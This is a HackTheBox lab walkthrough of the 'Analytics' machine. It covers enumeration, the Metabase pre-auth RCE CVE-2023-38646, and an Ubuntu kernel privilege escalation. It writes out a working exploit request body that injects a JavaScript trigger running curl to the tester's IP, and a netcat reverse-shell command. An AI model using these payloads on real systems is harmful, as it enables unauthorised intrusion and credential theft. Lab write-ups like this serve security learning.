# HackTheBox - Analytics


This post is focused on the walkthrough of Easy machine Analytics from HackTheBox.

<!--more-->

## Summary

Analytics involves exploitation of Pre-Auth RCE in Metabase (CVE-2023-38646) to get foothold in a docker container, getting some credentials to ssh into the host machine. Finally, exploiting a local privilege escalation vulnerability in Ubuntu Kernel (CVE-2023-32629) to get shell as root.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ nmap -A -vv 10.10.11.233 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

So we only got 22 and 80 open.

We'll start off with port 80 web.

The website redirects to `analytical.htb` and visiting the site, there seems nothing of interest but there's a subdomain `data.analytical.htb` link on the page.



The subdomain shows `Metabase` sign in page.



Looking for metabase exploits, we get `CVE-2023-38646`.

[This](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) shows the exploitation steps.

## Foothold

To get RCE, we first need to make a GET request to `/api/session/properties` and extract the `setup-token` from the response.



Then we need to call POST `/api/setup/validate` with the following body to execute a simple curl command.

POST body for `/api/setup/validate`
```json
{
        "token": <setup-token>,
        "details": {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint":false,
            "auto_run_queries": true,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl http://10.10.14.91')\n$$--=x",
                "advanced-options":false,
                "ssl": true
            },
            "name": "test",
            "engine": "h2"
        }
    }
```
Notice I'm using a simple `curl` to my local python server to check for a hit.



And we get a successful hit on our server.



We can simply execute a reverse shell and get the shell but for some reason normal shell payload weren't working here.

Fortunately, a simple `nc 10.10.14.91 4444 -e bash` worked.

Execute it and we'll get the shell as metabase.



## Getting a shell on host

We're inside a docker container and we concluded that from our IP and also the presence of `.dockerenv` at `/`.



Checking the `environment variables`, we get a password in there.



Trying this password for the user `metalytics` we get access to the host machine.



Here we get the `user.txt`.

### user.txt



## Privilege Escalation

`/etc/os-release` shows the server's is running `Ubuntu 22.04 Jammy Jellyfish`



A quick google search and we find `CVE-2023-32629`.

It's a privilege escalation vulnerability in Ubuntu Kernal. You can read about this vuln [here](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/).

As for the PoC to exploit this, I used [this](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) one.

Executing the script, we get shell as root.


And now we get the root flag.

### root.txt



**Thanks for reading!**


